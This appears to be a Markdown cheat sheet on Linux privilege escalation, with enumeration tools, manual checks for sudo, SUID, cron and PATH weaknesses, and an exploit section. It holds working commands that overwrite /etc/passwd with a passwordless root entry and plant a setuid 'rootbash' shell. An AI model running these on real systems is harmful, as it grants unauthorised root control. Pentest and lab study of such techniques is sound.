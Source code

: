 ## Enumeration

### Linpeas
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite

```
linpeash.sh -a > output.txt
cat output.txt | less -R
```

### linux-smart-enumeration
https://github.com/diego-treitos/linux-smart-enumeration

```
./lse.sh -l (use this to increase verbosity level default 0)
```

### linux-exploit-suggester-2 
(use this to find kernel exploits)

https://github.com/jondonas/linux-exploit-suggester-2

### Manual checks

Lists all commands the user can use with sudo permissions

```
sudo -l
```

LD_PRELOAD
```
sudo -l

// If you find inside the output of sudo -l the sentence: env_keep+=LD_PRELOAD and you can call some command with sudo, you can escalate privileges.
```

SSH directory

```
ls -l ~/.ssh
```

Which service(s) are been running by root? Of these services, which are vulnerable - it's worth a double check!

```
ps aux | grep root
ps -ef | grep root
```

Weak File Permissions
```
//if we can write this file we can add a new root user
ls -la /etc/shadow
ls -la /etc/passwd\

// exploit in this way
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su
```


SUID/SGID Executables
An SUID is a file that allows a user to execute the file with the permissions of the file owner, an SGID is the same except with the group owner. If the owner is root, we can essentially run files with root permissions.

```
//find all SUID files

find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null find all SUID files

// find all SGID files
find / -perm -g=s -type f 2>/dev/null

```
Check for services running only locally 
```
netstat -antpx
```

Crontab. The root crontab is almost always only editable by the root user or a user with full sudo privileges; however, it can still be abused. You may find a world-writable script that runs as root and, even if you cannot read the crontab to know the exact schedule, you may be able to ascertain how often it runs (i.e., a backup script that creates a .tar.gz file every 12 hours). In this case, you can append a command onto the end of the script (such as a reverse shell one-liner), and it will execute the next time the cron job runs.

```
We can confirm that a cron job is running using pspy, a command-line tool used to view running processes without the need for root privileges. We can use it to see commands run by other users, cron jobs, etc. It works by scanning procfs.

https://github.com/DominicBreuker/pspy

```

PATH ABUSE: PATH is an environment variable that specifies the set of directories where an executable can be located. An account's PATH variable is a set of absolute paths, allowing a user to type a command without specifying the absolute path to the binary. For example, a user can type cat /tmp/test.txt instead of specifying the absolute path /bin/cat /tmp/test.txt. We can check the contents of the PATH variable by typing env | grep PATH or echo $PATH.

```
We can check the contents of the PATH variable by typing 
env | grep PATH or 
echo $PATH.

If you have write permissions on any folder inside the PATH variable you may be able to hijacking some libraries or binaries:
```





## EXPLOIT 
#### ROOTBASH
we can use this tecnquie when we found a script running as root, we can modify in this way
```
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```
Ensure that overwrite.sh is executable:
```
chmod +x /home/user/overwrite.sh
```
run and gain a root shell (-p to preserve UID)
```
/tmp/rootbash –p
```
